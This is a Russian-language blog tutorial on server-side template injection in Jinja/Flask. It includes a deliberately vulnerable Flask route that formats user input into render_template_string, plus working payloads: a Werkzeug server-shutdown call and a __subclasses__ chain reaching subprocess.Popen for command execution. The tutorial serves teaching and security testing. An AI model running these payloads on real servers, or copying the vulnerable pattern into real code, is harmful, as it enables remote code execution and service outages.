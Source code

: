 ```yaml
---
published: true
title: Server Side Template Injection (SSTI) в Jinja
---
```


Jinja это шаблонизатор для Python приложений, таких как Django и Flask. Шаблонизатор в модели mvc отвечает за представление (view).
Он генерирует HTML на основе статических шаблонов динамически добавляя в них элементы.
Иньекция позволяет атакующему выпонить вредоносный код в шаблоне.

###### Встроеные функции Jinja
* `{% raw %}{{var}} {% endraw %}` - переменная
* `{% raw %}{% condition %}{% endraw %}` - выражение
* ...

###### Пример приложение с уязвимостью
Для примера создадим Flask приложение с уязвимостью.
```python
from flask import Flask, request, render_template_string

app = Flask(__name__)


@app.route('/')
def flask_ssti():
    name = "World"
    if request.args.get('name'):
        name = request.args.get('name')
    template = '''
        <!doctype html>
        <h1>Hello %s!</h1>
        <form>
            <input type="text" name="name">
        </form>
    ''' % (name)
    return render_template_string(template)


if __name__ == "__main__":
    app.run(debug=True)
```

###### Пример атаки
Попробуем подставить в уязвимый параметр выражение `{%raw%}{{1+1}}{%endraw%}`

![ssti1](/images/ssti1.png){: .shadow-image }

###### К чему мы получаем доступ
* к объекту `request`
* к объекту `config`
* к переменным jinja


###### Остановка сервера
В случае если мы используем сервер разработки следующий payload приведет к остановке сервера
```console
{% raw %}{{ request.environ['werkzeug.server.shutdown']() }} {% endraw %}
```

###### Remote Code Execution

```python
{% raw %}{{ ''.__class__.__mro__}} # find <class 'object'>
{{ ''.__class__.__mro__[1].__subclasses__()}} # find <class 'subprocess.Popen'>
{{ ''.__class__.__mro__[1].__subclasses__()[282]('touch /tmp/rce',shell=True) }}{% endraw %}
```

![ssti2](/images/ssti2.png){: .shadow-image }

##### Links
* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
* [https://0day.work/jinja2-template-injection-filter-bypasses/](https://0day.work/jinja2-template-injection-filter-bypasses/)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2)
* [https://nvisium.com/blog/2015/12/07/injecting-flask.html](https://nvisium.com/blog/2015/12/07/injecting-flask.html)
* [http://jinja.pocoo.org/](http://jinja.pocoo.org/)
* [https://github.com/epinna/tplmap](https://github.com/epinna/tplmap)
